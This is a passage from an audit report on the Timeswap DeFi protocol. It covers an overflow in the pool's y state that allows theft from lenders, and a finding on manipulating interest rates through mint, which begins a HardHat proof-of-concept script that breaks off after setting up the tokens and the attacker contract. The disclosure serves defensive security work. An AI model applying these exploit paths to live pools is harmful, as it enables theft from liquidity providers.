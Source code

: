 Actually, we believe that it does not make sense for the caller to specify the interest they want to pay, we recommend removing this function.

#### Impact

*   When `pool.state.y` is extremely large, many core features of the protocol will malfunction, as the arithmetic related to `state.y` can overflow. For example:

LendMath.check(): <https://github.com/code-423n4/2022-01-timeswap/blob/bf50d2a8bb93a5571f35f96bd74af54d9c92a210/Timeswap/Timeswap-V1-Core/contracts/libraries/LendMath.sol#L28-L28>

BorrowMath.check(): <https://github.com/code-423n4/2022-01-timeswap/blob/bf50d2a8bb93a5571f35f96bd74af54d9c92a210/Timeswap/Timeswap-V1-Core/contracts/libraries/BorrowMath.sol#L31-L31>

*   An attacker can set `state.y` to a near overflow value, then `lend()` to get a large amount of extra interest (as Bond tokens) with a small amount of asset tokens. This way, the attacker can steal funds from other lenders and liquidity providers.

**[Mathepreneur (Timeswap) confirmed](https://github.com/code-423n4/2022-01-timeswap-findings/issues/169)**

## [[H-03] Manipulation of the Y State Results in Interest Rate Manipulation](https://github.com/code-423n4/2022-01-timeswap-findings/issues/187)
_Submitted by Rhynorater, also found by harleythedog, hyh, and WatchPug_

Due to lack of constraints on user input in the `TimeswapPair.sol#mint` function, an attacker can arbitrarily modify the interest rate while only paying a minimal amount of Asset Token and Collateral Token.

Disclosure: This is my first time attempting Ethereum hacking, so I might have made some mistakes here since the math is quite complex, but I'm going to give it a go.

#### Proof of Concept

The attack scenario is this: A malicious actor is able to hyper-inflate the interest rate on a pool by triggering a malicious mint function. The malicious actor does this to attack the LP and other members of the pool.

Consider the following HardHat script:

```
const hre = require("hardhat");


//jtok is asset
//usdc is collat

async function launchTestTokens(tokenDeployer){
    //Launch a token
    const TestToken = await ethers.getContractFactory("TestToken", signer=tokenDeployer);
    const tt = await TestToken.deploy("JTOK", "JTOK", 1000000000000000)
    const tt2 = await TestToken.deploy("USDC", "USDC", 1000000000000000)
    let res = await tt.balanceOf(tokenDeployer.address)
    let res2 = await tt.balanceOf(tokenDeployer.address)
    console.log("JTOK balance: "+res)
    console.log("USDC balance: "+res2)
    return [tt, tt2]
}

async function deployAttackersContract(attacker, jtok, usdc){
    const Att = await ethers.getContractFactory("Attacker", signer=attacker)
    const atakcontrak = await Att.deploy(jtok.address, usdc.address)
    return atakcontrak
}

async function deployLPContract(lp, jtok, usdc){
    const LP = await ethers.getContractFactory("LP", signer=lp)
```